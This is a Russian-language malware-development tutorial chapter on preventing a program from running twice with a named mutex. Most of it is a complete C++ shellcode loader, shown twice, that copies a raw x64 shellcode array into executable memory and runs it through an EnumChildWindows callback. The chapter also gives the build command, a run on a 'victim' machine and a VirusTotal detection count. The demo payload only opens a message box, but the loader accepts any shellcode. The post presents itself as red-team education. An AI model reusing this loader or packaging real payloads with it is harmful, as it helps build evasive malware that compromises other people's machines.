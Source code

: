\newpage
\subsection{39. трюки разработки вредоносного ПО. Mutex. Пример на C++.}

﷽

![инъекция](./images/84/2023-01-04_12-50.png){width="80%"}    

Этот пост является результатом моего собственного исследования трюка разработки вредоносного ПО: предотвращение повторного запуска с помощью мьютексов.     

Иногда при разработке вредоносного ПО для максимальной скрытности необходимо, чтобы программа запускалась только один раз. Для этого, согласно [документации MSDN](https://learn.microsoft.com/en-us/dotnet/standard/threading/mutexes), мы можем использовать мьютексы.

### мьютекс

Для простоты можно использовать функцию `CreateMutexA` из Windows API:    

```cpp
HANDLE CreateMutexA(
  LPSECURITY_ATTRIBUTES lpMutexAttributes,
  BOOL                  bInitialOwner,
  LPCSTR                lpName
);
```

### практический пример

В самой простой реализации можно использовать эту функцию следующим образом:    

Создать мьютекс с определённым именем, чтобы несколько экземпляров могли его обнаружить:    

```cpp
hMutex = CreateMutexA(NULL, FALSE, "MeowMeowMutex");
```

Проверить, существует ли мьютекс, и выйти из приложения, если он уже есть:    

```cpp
if (GetLastError() == ERROR_ALREADY_EXISTS) {
  // если этот процесс создал мьютекс, выходим из приложения
  if (hMutex && GetLastError() == ERROR_ALREADY_EXISTS) {
    CloseHandle(hMutex);
    return 0;
  }
}
```

В противном случае выполняем вредоносную логику и закрываем мьютекс после завершения:    

```cpp
//...
// вредоносная логика
LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
RtlMoveMemory(mem, my_payload, sizeof(my_payload));
EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);

//...

// очистка
if (hMutex)
  CloseHandle(hMutex);
return 0;
```

Таким образом, полный исходный код выглядит следующим образом:    

```cpp
/*
 * hack.cpp - Create mutex, run shellcode. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/01/04/malware-tricks-26.html
*/
#include <windows.h>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE hMutex;
  // create mutex with a name so multiple instances can detect it
  hMutex = CreateMutexA(NULL, FALSE, "MeowMeowMutex");
  // check if the mutex already exists
  if (GetLastError() == ERROR_ALREADY_EXISTS) {
    // if this process created the mutex, exit the application
    if (hMutex && GetLastError() == ERROR_ALREADY_EXISTS) {
      CloseHandle(hMutex);
      return 0;
    }
  }

  // shellcode running logic
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);

  // cleanup
  if (hMutex)
    CloseHandle(hMutex);
  return 0;
}
```

Как можно заметить, я использую запуск шеллкода [через EnumChildWindows](https://cocomelonc.github.io/malware/2022/07/13/malware-injection-21.html). Также, как обычно, использую полезную нагрузку `meow-meow` с messagebox.     

### демонстрация

Давайте посмотрим всё в действии. Компилируем наш "вредонос":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![инъекция](./images/84/2023-01-04_12-39.png){width="80%"}    

Затем переносим на машину жертвы (в моём случае `Windows 10 x64`) и запускаем:    

```powershell
.\hack.exe
```

![инъекция](./images/84/2023-01-04_12-38.png){width="80%"}    

Затем пытаемся запустить этот "вредонос" снова из другого терминала Powershell:    

![инъекция](./images/84/2023-01-04_12-41.png){width="80%"}    

Как можно заметить, ничего не запустилось, у нас есть только одно окно messagebox.    

Для проверки корректности можно добавить в код некоторые отладочные сообщения:    

```cpp
/*
 * hack.cpp - Create mutex, run shellcode. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/
*/
#include <windows.h>
#include <cstdio>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE hMutex;
  // create mutex with a name so multiple instances can detect it
  hMutex = CreateMutexA(NULL, FALSE, "MeowMeowMutex");
  // check if the mutex already exists
  if (GetLastError() == ERROR_ALREADY_EXISTS) {
    // if this process created the mutex, exit the application
    if (hMutex && GetLastError() == ERROR_ALREADY_EXISTS) {
      printf("MeowMeowMutex already exists, app already running =^..^=\n");
      CloseHandle(hMutex);
      return 0;
    }
  }

  // shellcode running logic
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);

  // cleanup
  if (hMutex)
    CloseHandle(hMutex);
  return 0;
}
```

Затем повторяем наши шаги снова:    

![инъекция](./images/84/2023-01-04_12-49.png){width="80%"}    

Как можно заметить, всё сработало идеально!    

Давайте загрузим `hack.exe` на VirusTotal:    

![инъекция](./images/84/2023-01-04_13-44.png){width="80%"}    

**Итак, 17 из 62 антивирусных движков определили наш файл как вредоносный.**     

[https://www.virustotal.com/gui/file/153d249063f46b0d56603d7aab7e43a3361d74e9852367d8730f5e57fb9f5b9f/details](https://www.virustotal.com/gui/file/153d249063f46b0d56603d7aab7e43a3361d74e9852367d8730f5e57fb9f5b9f/details)      

Этот трюк, например, используется такими злоумышленниками, как [Conti ransomware](https://attack.mitre.org/software/S0575/), [Hellokitty ransomware](https://attack.mitre.org/software/S0617/) и [AsyncRAT](https://github.com/NYAN-x-CAT/AsyncRAT-C-Sharp) в реальной среде.    

Надеюсь, этот пост повысит осведомлённость синих команд об этой интересной технике и добавит оружие в арсенал красных команд.    

[Conti](https://attack.mitre.org/software/S0575/)      
[Hellokitty](https://attack.mitre.org/software/S0617/)      
[Hellokitty source code](https://github.com/Black-Hell-Team/Hello-Kitty)     
[AsyncRAT source code](https://github.com/NYAN-x-CAT/AsyncRAT-C-Sharp)    
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-01-04-malware-tricks-26)     
